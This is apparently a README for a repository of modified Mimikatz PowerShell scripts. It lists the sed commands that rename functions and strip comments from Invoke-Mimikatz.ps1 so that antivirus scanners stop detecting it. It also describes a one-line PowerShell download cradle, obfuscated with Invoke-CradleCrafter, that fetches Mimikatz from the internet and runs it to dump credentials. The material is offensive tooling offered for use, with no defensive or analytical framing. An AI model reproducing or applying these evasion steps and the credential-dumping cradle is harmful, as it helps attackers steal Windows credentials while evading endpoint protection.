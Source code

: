 # Mimikatz

## Mi.ps1

Mi.ps1 is a modified version of Mimikatz which is available at https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

I downloaded the file an modified it with the following commands:

<pre>
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/BirdIsTheWord/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/UnceUnceUnce/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
</pre>

At the end I renamed the file with:

<pre>
mv Invoke-Mimikatz.ps1 Mi.ps1
</pre>

This will change the bahivor of most AV scanners. The file will be no longer detected as maleware, but the execution will be still blocked when the code sucked in.

## MiLoading.ps1

Is a single command that can be run on powershell. It will pull a file from the internet containing Mimikatz and will execute it. The results will be printed into a txt file which will be opened by notepad. The commands was created by the Invoke-CradleCrafter (https://github.com/danielbohannon/Invoke-CradleCrafter). Another great tool to obfuscate the command and to execute Mimikatz on devices
